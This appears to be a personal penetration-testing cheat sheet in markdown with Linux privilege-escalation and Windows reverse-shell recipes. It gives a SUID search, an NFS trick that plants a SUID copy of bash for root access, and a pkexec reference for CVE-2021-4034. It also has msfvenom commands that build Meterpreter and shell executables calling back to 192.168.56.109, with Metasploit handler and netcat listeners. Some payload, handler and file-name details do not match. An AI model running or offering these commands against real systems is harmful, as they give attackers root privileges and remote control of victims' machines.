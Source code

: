 # Privilege Escalation
## LINUX
- SUID
```
find  / -perm 4000 -ls 2>/dev/null
```
- MOUNT
```
showmount -e $IP => folder will be shown in here
mount -e ntfs $IP:/$folder /tmp/sharefolder
cp /bin/bash /tmp/sharefolder/bash
chmod +s /tmp/sharefolder/bash
Login via ssh
./bash -p
```
- CVE-2021-4034
```
pkexec
```
## shells
- meterpreter x64
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.109 LPORT=139 -f exe -o exploit_port139.exe
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 192.168.56.109;set LPORT 139;run'
```

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.56.109 LPORT=139 -f exe -o exploit_port139.exe
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_tcp;set LHOST 192.168.56.109;set LPORT 139;run'
```
- meterpreter 32bit
```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 LHOST=192.168.56.109 LPORT=53 -f exe -o exploit_port53.exe

msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 192.168.56.109;set LPORT 53;run'
```

```
msfvenom -p windows/meterpreter_reverse_tcp --platform windows -a x86 LHOST=192.168.56.109 LPORT=53 -f exe -o exploit_port53.exe

msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_tcp;set LHOST 192.168.56.109;set LPORT 53;run'
```
- windows shell x64
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.56.109 LPORT=53 -f exe -o exploit_port55.exe

nc -nvlp 53
```
